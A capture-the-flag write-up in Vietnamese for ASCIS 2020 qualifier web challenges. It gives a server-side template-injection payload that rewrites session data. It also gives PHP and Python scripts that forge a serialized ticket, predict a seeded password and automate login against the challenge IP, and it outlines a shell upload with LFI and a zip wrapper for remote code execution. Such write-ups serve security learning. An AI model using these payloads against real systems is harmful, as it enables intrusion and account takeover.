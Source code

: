 ```yaml
---
title: "ASCIS 2020 Quals - Web"
date: 2020-11-01
tags: ["ctf", "web"]
description: ""
layout: layouts/post.njk
---
```

## TSULOTT3
```
POST /

{% raw %}name={% set x=session.update({'check': 'access', 'jackpot': ''}) %}&ok={% endraw %}
```
```
POST /guess

jackpot=
```

## among_us
1. Viết PHP script để generate ra `ticket` và password mới cho user
```php
<?php
class CrewMate {
	public $name = 'tsu';
	public $secret_number = [1, 2, 3, 4, 5, 6, 7, 8, 9];
}

$arr = new CrewMate;
$se = serialize($arr);

echo base64_encode($se) . PHP_EOL;

$de = unserialize($se);
$secret_number = strtoupper($de->secret_number);
$random_rand = rand(0, $secret_number);
srand($random_rand);
$new_password = "";
while (strlen($new_password) < 30) {
    $new_password .= strval(rand());
}
echo 'New password: ' . $new_password . PHP_EOL;
?>
```
2. Viết Python script để tự động hóa việc lấy token để đăng nhập
```python
from re import findall
from hashlib import md5
import requests

REGEX_TOKEN = r'name="token" value="(.*?)"'
PHPSESSID = '' # Nhập PHPSESSID vào biến

while True:
    res = requests.get('http://35.240.156.48/?page=forgot', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=forgot', data={
        'ticket': 'Tzo4OiJDcmV3TWF0ZSI6Mjp7czo0OiJu[redacted]', # Ticket được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })

    res = requests.get('http://35.240.156.48/?page=login', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=login', data={
        'username': 'tsu',
        'password': '117856802212731241191535857466', # Password được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })
```
Chạy cho đến khi script bị lỗi tại hàm `findall` thì dừng lại (vì login xong sẽ không còn form login nữa nên không thể lấy được token, dẫn đến lỗi).

3. Upload 1 PHP shell và server sẽ tạo 1 file zip chứa file mình mới upload lên và sẽ được xóa cho đến khi có 1 lượt upload khác.
4. Sử dụng lỗi LFI ở trang `index.php` + zip wrapper để include PHP shell trong file zip => RCE.
5. Lấy flag ở trong database.
